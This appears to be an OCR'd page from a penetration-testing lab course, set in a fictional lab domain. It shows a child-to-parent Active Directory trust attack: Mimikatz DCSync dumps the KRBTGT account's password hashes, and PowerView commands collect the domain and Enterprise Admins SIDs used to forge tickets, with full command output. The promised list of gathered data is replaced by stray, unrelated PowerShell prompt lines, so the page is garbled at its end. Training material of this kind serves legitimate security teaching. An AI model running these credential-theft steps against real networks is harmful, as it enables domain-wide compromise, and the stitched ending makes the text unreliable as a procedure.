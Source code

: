 #### **Obtaining the KRBTGT Account's NT Hash using Mimikatz**

`KRBTGT` is a service account for the KDC in AD.

* `PS C:\htb> mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt`

```powershell
PS C:\htb>  mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt[DC] 'LOGISTICS.INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'LOGISTICS\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/1/2021 11:21:33 AM
Object Security ID   : S-1-5-21-2806153819-209893948-922872689-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9d765b482771505cbe97411065964d5f
    ntlm- 0: 9d765b482771505cbe97411065964d5f
    lm  - 0: 69df324191d4a80f0ed100c10f20561e
```

We can use the PowerView `Get-DomainSID` function to get the SID for the child domain,

```powershell
PS C:\htb> Get-DomainSID

S-1-5-21-2806153819-209893948-922872689
```

Next, we can use `Get-DomainGroup` from PowerView to obtain the SID for the Enterprise Admins group in the parent domain.

```powershell
PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

distinguishedname                                       objectsid
-----------------                                       ---------
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519
```

At this point, we have gathered the following data points:


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist